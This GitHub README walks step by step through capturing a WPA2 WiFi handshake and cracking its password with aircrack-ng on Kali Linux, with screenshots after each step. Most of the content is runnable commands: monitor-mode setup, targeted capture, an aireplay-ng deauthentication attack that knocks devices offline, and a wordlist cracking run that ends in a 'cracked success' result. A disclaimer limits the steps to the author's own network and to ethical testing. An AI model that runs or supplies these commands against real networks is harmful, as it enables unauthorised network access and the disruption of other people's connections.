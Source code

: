 # 🛠️ WiFi Handshake Capture Demo

This project demonstrates how to capture a WPA2 WiFi handshake using tools from the `aircrack-ng` suite on Kali Linux.

> ⚠️ **Disclaimer:** This demonstration is intended **strictly for educational and ethical testing purposes only**.  
> All actions were performed on a private WiFi network owned by the author.  
> Do **not** use these techniques on any network without **explicit permission** from the owner.  
> Unauthorized access to networks is illegal and punishable by law.

---

## 📸 Steps (with Images)

1. **Stop network services**
   ```bash
   sudo airmon-ng check kill
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/images/kill_services.png)

2. **Enable monitor mode**
   ```bash
   sudo airmon-ng start wlan0
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/images/enable_monitor_mode.png)

3. **Discover Wi-Fi networks**
   ```bash
   sudo airodump-ng wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/images/scan_networks.png)

4. **Capture WPA2 handshake**
   ```bash
   sudo airodump-ng -c [CH] --bssid [BSSID] -w capture wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/images/scan%20target.png)

5. **Disconnect a device (for handshake)**
   ```bash
   sudo aireplay-ng --deauth 5 -a [BSSID] wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/images/send_deauth_packets.png)

6. **Analyze handshake with a wordlist**
   ```bash
   sudo aircrack-ng -w wordlist.txt -b [BSSID] capture.cap
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/images/aircrack_attempt.png)

7. **Result**
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/images/cracked_success.png)

---

## 📁 Notes

- Environment: Kali Linux
- This project is strictly for learning and demonstration on your own network.
